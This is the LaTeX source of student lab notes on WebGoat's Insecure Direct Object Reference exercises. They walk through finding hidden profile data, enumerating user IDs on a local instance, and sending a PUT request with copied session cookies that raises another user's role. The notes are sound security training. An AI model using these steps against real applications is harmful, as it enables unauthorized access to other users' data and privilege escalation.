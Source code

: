 \documentclass[a4paper, 10pt, titlepage]{article}
\begin{document}
\subsection*{Usability}
Security information is communicated, collected or made modifiable through an interface having quite poor usability.

\newpage
\section{Laboratory 5}
\subsection{WebGoat - Access Control Flaws}
The access control flaw covered is the Direct Object Reference.
Direct Object References are when an application uses client-provided input to access data and objects.
\begin{verbatim}
https://some.company.tld/dor?id=12345
\end{verbatim}
These are considered insecure when the reference is not properly handled and allows for authorization bypasses or disclose private data that could be used to perform operations or access data that the user should not be able to perform or access. \\
In exercise 3 analyze the page and in the network tab search for the profile file. It is easy to recover the infos hidden from the page:
\begin{lstlisting}
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
\end{lstlisting}
In exercise 4 just access the page with:
\begin{verbatim}
WebGoat/IDOR/profile/2342384
\end{verbatim}
In exercise 5 try to change the id number, until you get to:
\begin{verbatim}
http://localhost:8881/WebGoat/IDOR/profile/2342388

"{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}"
\end{verbatim}
Editing can be done with or without ZAP:
\begin{itemize}
\item \textbf{With ZAP}: modify the request, making it a PUT and adding the parameters in the body
\item \textbf{Without ZAP}: open postman and do a GET with the above URL. The session cookies from the current session ('\lstinline|document.cookie|' in the console of firefox) have to be added to localhost (with path '/WebGoat'), so that the logins are already executed. Then change the request to a PUT and in the \textbf{body} tab change to \textbf{raw} and switch from \textbf{text} to \textbf{JSON}, then write:
\begin{lstlisting}
{
	"role" : 1,
	"color" : "red",
	"size" : "large",
	"name" : "Buffalo Bill",
	"userId" : "2342388"
}
\end{lstlisting}
\end{itemize}
\end{document}
